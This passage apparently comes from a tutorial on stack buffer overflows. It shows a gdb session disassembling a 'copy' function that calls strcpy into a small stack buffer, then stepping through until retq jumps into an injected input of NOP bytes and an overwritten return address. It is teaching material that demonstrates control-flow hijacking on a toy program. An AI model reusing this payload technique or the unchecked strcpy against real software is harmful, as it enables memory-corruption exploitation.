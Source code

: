 ```assembly
    b=0x7fffffffe80e "\220\220\220\220\220\220\220\220\061\062\063\064\065\066\067\070\250\344\377\377\377\177") at overflow.c:15
15	}
```
Let's disassemble the `copy` function
```assembly
(gdb) disassemble copy
Dump of assembler code for function copy:
   0x0000555555555165 <+0>:  push   %rbp
   0x0000555555555166 <+1>:  mov    %rsp,%rbp
   0x0000555555555169 <+4>:  sub    $0x20,%rsp
   0x000055555555516d <+8>:  mov    %rdi,-0x18(%rbp)
   0x0000555555555171 <+12>: mov    -0x18(%rbp),%rdx
   0x0000555555555175 <+16>: lea    -0x8(%rbp),%rax
   0x0000555555555179 <+20>: mov    %rdx,%rsi
   0x000055555555517c <+23>: mov    %rax,%rdi
   0x000055555555517f <+26>: callq  0x555555555030 <strcpy@plt>
   0x0000555555555184 <+31>: lea    -0x8(%rbp),%rax
   0x0000555555555188 <+35>: add    $0x10,%rax
   0x000055555555518c <+39>: mov    (%rax),%rcx
   0x000055555555518f <+42>: lea    -0x8(%rbp),%rax
   0x0000555555555193 <+46>: add    $0x8,%rax
   0x0000555555555197 <+50>: mov    (%rax),%rdx
   0x000055555555519a <+53>: lea    -0x8(%rbp),%rax
   0x000055555555519e <+57>: mov    %rax,%rsi
   0x00005555555551a1 <+60>: lea    0xe60(%rip),%rdi        # 0x555555556008
   0x00005555555551a8 <+67>: mov    $0x0,%eax
   0x00005555555551ad <+72>: callq  0x555555555050 <printf@plt>
=> 0x00005555555551b2 <+77>: nop
   0x00005555555551b3 <+78>: leaveq 
   0x00005555555551b4 <+79>: retq   
End of assembler dump.
```
Now we step through the machine instructions step by step until we execute the `retq` command
```assembly
(gdb) stepi
0x00005555555551b3	15	}
(gdb) x/i $rip
=> 0x5555555551b3 <copy+78>:	leaveq 
(gdb) stepi
0x00005555555551b4	15	}
(gdb) x/i $rip
=> 0x5555555551b4 <copy+79>:	retq   
(gdb) stepi
0x00007fffffffe4a8 in ?? ()
(gdb) x/i $rip
=> 0x7fffffffe4a8:	nop
```
The `retq`operation retrieves the saved `%rip`from the stack and jumps to the start address `0x7fffffffe4a8`of the `buf` variable on the *Stack*. The next machine instruction to be executed will be the `nop` operation encoded into the input string.
